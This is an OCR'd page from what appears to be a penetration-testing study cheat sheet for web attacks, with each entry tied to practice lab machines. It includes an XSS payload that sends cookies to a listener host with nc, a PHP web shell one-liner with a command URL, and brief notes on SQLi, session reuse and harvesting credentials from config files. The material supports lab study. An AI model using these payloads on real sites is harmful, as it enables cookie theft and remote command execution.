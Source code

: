 **XSS**
1: Steal admin's **cookie** to bypass login: **<script>new
Image().src="http://10.10.10.20/file.jpg?
cookie="+document.cookie;</script>** , **nc -nlvp 80**
###Ref: **Megavolt**
2: Turn to shell

**Cookie and Session**
1: **Steal cookie** by **XSS**
###Ref: **Megavolt**
2: **Generate/Fake** a **valid cookie**
###Ref: **Flasky**
3: **Reuse session**
###Ref: **Shifty**

**File Upload**
1: Identify framework's **language**
2: File extension **blacklist/whitelist** : Modify file extension to **phtml** , **txt** , etc.
And the payload could be: **<?php echo shell_exec($_GET['cmd']); ?>**. Access
[http://abc.com/xyc.php?file=shell.php&cmd=whoami](http://abc.com/xyc.php?file=shell.php&cmd=whoami)
###Ref: **Payday, Pain**
3: Filter type: **client filte** r or **server filter** , **whitelisting** or **blacklisting**
###Ref: **Escape**
4: Access uploaded **file's URL**

**Config File**
1: phpinfo.php
2: /var/www/html, /var/www/[application name]
3: Webroot, hostname, username, version, API, database credential, etc.
4: /etc/apache2/

**Embedded Console/Shell Interface**
1: Like the one in **Walla**

**GET and POST**

Enumeration Page 42


**GET and POST**
1: Construct **POST** method request: **curl -X POST --date
"email=test@test.com" [http://10.10.10.10](http://10.10.10.10)**
###Ref: **XPosedAPI, Hetmit**
2: Construct **GET** method request: **curl [http://10.10.10.10?](http://10.10.10.10?)
email=test@test.com**
3: Sometimes need to **guess arguments** by **trials and errors,** follow **errors
messages** and **prompts**
###Ref: **Nickel**

**Database**
1: **SQLi**
###Ref: **Medjed, Hawat**
2: **Retrieve credential**
###Ref: **Phobos, Medjed**
3: **Overwrite credential** if hash is **unexploitable**
###Ref: **Tico, Dibble**
